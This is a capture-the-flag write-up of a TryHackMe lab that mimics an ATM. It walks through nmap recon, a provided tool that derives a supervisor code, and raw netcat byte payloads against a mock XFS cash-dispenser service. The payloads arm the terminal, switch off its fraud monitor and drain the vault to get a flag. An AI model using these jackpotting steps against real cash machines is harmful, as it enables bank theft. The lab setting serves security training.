


## Overview

[Jackpot](https://tryhackme.com/room/jackpot) is a protocol box dressed up as an
ATM. There's no shell to catch and no privesc — the whole thing is a custom
binary service sitting on port 9100 that speaks a cut-down version of the XFS
(eXtensions for Financial Services) CDM interface. The web app on 8080 hands you
a tool that derives a supervisor activation code from the session code on screen,
and from there it's a matter of reading the protocol banner, learning the command
table, and firing the commands in the one order the service will accept: arm,
kill the fraud monitor, empty the cassettes, then collect the flag.

## Enumeration

Standard opening scan:

```bash
nmap -T4 jackpot.thm
```

```text
Nmap scan report for jackpot.thm (10.49.165.214)
Host is up (0.23s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy
9100/tcp open  jetdirect
```

Three ports, and 9100 is the odd one — normally that's a raw print service, but
the theme here suggests otherwise. Version detection filled in the picture:

```bash
nmap -T4 -p22,8080,9100 -sV -sC jackpot.thm
```

```text
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http       BaseHTTPServer 0.6 (Python 3.12.3)
|_http-title: Earth's National Bank — Terminal 004 Engineering Console
|_http-server-header: BaseHTTP/0.6 Python/3.12.3
9100/tcp open  jetdirect?
```

SSH is just there for show (no creds, no hints point at it). The interesting
surface is the Python `BaseHTTPServer` on 8080 and whatever `jetdirect?` really
is on 9100. I kicked off a full `-p-` sweep in the background and carried on with
what I already had — nothing else turned up worth chasing.

### The engineering console

Port 8080 serves an "Engineering Console" for the terminal. It shows live
cassette levels (four denominations, 280 notes in the vault), the fraud monitor
sitting **ACTIVE**, and an engineering tools panel offering a service tool to
download.



The key detail is in that panel: *"the terminal service tool derives a supervisor
activation code from the session code shown above."* So the session code on the
dashboard is an input, and the tool turns it into something privileged.

### The service tool

The download is an ELF:

```bash
file jackpot
```

```text
jackpot: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=2e9a37729a5046405945de339a6e01a3004b2fb3, for GNU/Linux 3.2.0, stripped
```

Run with no arguments it tells you exactly what it wants:

```bash
chmod +x ./jackpot
./jackpot
```

```text
Earth's National Bank - Terminal Engineering Tool
usage: ./jackpot <6-digit session code from ATM screen>
```

Feed it the session code from the dashboard and it coughs up the activation code
— no reversing needed, the tool does the derivation for us:

```text
./jackpot 549388
[*] session nonce : 549388
[*] activation code: 80084016
```

That `80084016` is the supervisor code the console hinted at. Hold onto it.

### The XFS bridge on 9100

A bare connection to 9100 returns a JSON banner instead of a print prompt:

```bash
nc -vn 10.49.165.214 9100
```

```json
{
  "service": "Branch Engineering Gateway",
  "protocol": "XFS bridge",
  "request_format": "1 byte msg_type + 4 byte big-endian command id + 2 byte big-endian length + <length> bytes of data",
  "reply_format": "2 byte big-endian length + <length> bytes of JSON (this banner uses the same framing)",
  "msg_types": {"GETINFO": "0x01", "EXECUTE": "0x02"},
  "hint": "query command 0x0304 (WFS_INF_CDM_CAPABILITIES) with msg_type GETINFO for the full command table"
}
```

The service hands us the whole wire format on a plate: one byte for the message
type, four for a big-endian command id, two for a big-endian length, then the
payload. GETINFO reads, EXECUTE acts.

## Talking to the bridge

To avoid hand-piping bytes every time, I wrote a small helper. `printf` turns the
`\xNN` escapes into real raw bytes — the only way to push non-printables like
`\x00` into the pipe — and `nc -q2` sends them, waits two seconds, then quits
(without `-q2` the connection hangs waiting on more input):

```bash
send() { printf "$1" | nc -q2 10.49.165.214 9100; }
```

Following the banner's hint, the first query is the capabilities command
(`0x0304`) with GETINFO (`\x01`), no data (`\x00\x00`):

```bash
send '\x01\x00\x00\x03\x04\x00\x00'
```

A quick upgrade to the helper pipes the reply through `jq` to read it cleanly —
purely cosmetic, not required:

```bash
send() {
  printf "$1" | nc -q2 10.49.165.214 9100 \
  | tr -d '\r\n' \
  | grep -aoE '\{"rc".*\}$' \
  | jq .
}
```

```json
{
  "rc": "WFS_SUCCESS",
  "interface": "Branch Engineering Gateway (XFS bridge)",
  "device_class": "CDM",
  "commands": {
    "WFS_INF_CDM_STATUS": "0x301",
    "WFS_INF_CDM_CASH_UNIT_INFO": "0x303",
    "WFS_INF_CDM_CAPABILITIES": "0x304",
    "WFS_CMD_CDM_DISPENSE": "0x401",
    "WFS_CMD_CDM_ARM": "0x4f0",
    "WFS_CMD_CDM_SET_MONITOR": "0x4f1",
    "WFS_CMD_CDM_GET_FLAG": "0x4ff"
  },
  "max_dispense": 40
}
```

There's the full command table. `GET_FLAG` (`0x4ff`) is obviously the goal, but
the three `WFS_CMD_*` commands above it — DISPENSE, ARM, SET_MONITOR — are clearly
gates in front of it. `max_dispense` capping at 40 notes per call matters later.

## Exploitation

### Reading the gate order from the errors

Before building any EXECUTE payloads, I probed each action command with GETINFO
to see what the service complains about. The error on each one tells you exactly
what it's waiting for.

ARM:

```bash
send '\x01\x00\x00\x04\xf0\x00\x00'
```

```json
{"rc": "WFS_ERR_CDM_INVALIDCODE", "detail": "invalid activation code"}
```

SET_MONITOR:

```bash
send '\x01\x00\x00\x04\xf1\x00\x00'
```

```json
{"rc": "WFS_ERR_CDM_NOTARMED"}
```

GET_FLAG:

```bash
send '\x01\x00\x00\x04\xff\x00\x00'
```

```json
{"rc": "WFS_ERR_CDM_CASHUNITERROR", "detail": "no proof of cashout on record"}
```

That's the whole chain spelled out backwards. The flag wants proof of a cashout;
the monitor won't flip until we're armed; arming wants the activation code. So the
forward path is: arm with the code, disable the fraud monitor, dispense until the
vault is empty, then ask for the flag.

### Arm

The activation code is 8 bytes of ASCII, so the length field is `\x00\x08` and the
code goes in as the payload. This is the first EXECUTE (`\x02`):

```bash
CODE=80084016
send "\x02\x00\x00\x04\xf0\x00\x08$CODE"
```

```json
{"rc": "WFS_SUCCESS", "detail": "armed - supervisor mode"}
```

### Disable the fraud monitor

With the monitor still ACTIVE, a cashout would trip it and lock the terminal, so
this has to happen before any dispense. SET_MONITOR takes a 3-byte `off` payload
(`\x00\x03off`):

```bash
send '\x02\x00\x00\x04\xf1\x00\x03off'
```

```json
{"rc": "WFS_SUCCESS", "monitor_on": false}
```

> The order here isn't optional — dispensing while the fraud monitor is live
> locks the terminal, and you're starting over. Arm, kill the monitor, *then*
> cash out.
{: .prompt-warning }

### Dispense and collect

DISPENSE caps at 40 notes a call and the vault holds 280, so it takes seven calls
to drain it. A quick loop does it, with a short sleep so the replies don't collide:

```bash
for i in $(seq 1 7); do send '\x02\x00\x00\x04\x01\x00\x00'; sleep 1; done
```

Each call reports 40 notes out and counts the vault down. The seventh is the one
that matters:

```json
{
  "rc": "WFS_SUCCESS",
  "notes": 40,
  "value": 400,
  "remaining_notes": 0,
  "detail": "vault empty - cashout proven; GET_FLAG now available"
}
```

"Cashout proven" — that's the record GET_FLAG was looking for. Same command as the
earlier probe, but now the gate is satisfied:

```bash
send '\x01\x00\x00\x04\xff\x00\x00'
```

```json
{"rc": "WFS_SUCCESS", "flag": "THM{...}"}
```


## Conclusion

1. An SSH-plus-two-web-ports scan put a Python service on 9100 that turned out to
   speak a mock XFS CDM protocol rather than raw printing.
2. The 8080 console leaked both the session code and a service tool that derives
   the supervisor activation code from it, so no reversing of the ELF was needed.
3. The 9100 banner published its own wire format and pointed at a capabilities
   command that dumped the full command table.
4. Probing each action command with GETINFO leaked the gating order through its
   error codes — flag needs a proven cashout, cashout needs the monitor off, the
   monitor needs an armed session.
5. Armed with the code, with the fraud monitor disabled, we drained all 280 notes
   in seven DISPENSE calls and the service released the flag.



| Stage | Tools |
| --- | --- |
| Recon | nmap |
| Service tool | file, provided ELF |
| Protocol | netcat, printf, jq |
| Exploitation | bash (send helper, dispense loop) |
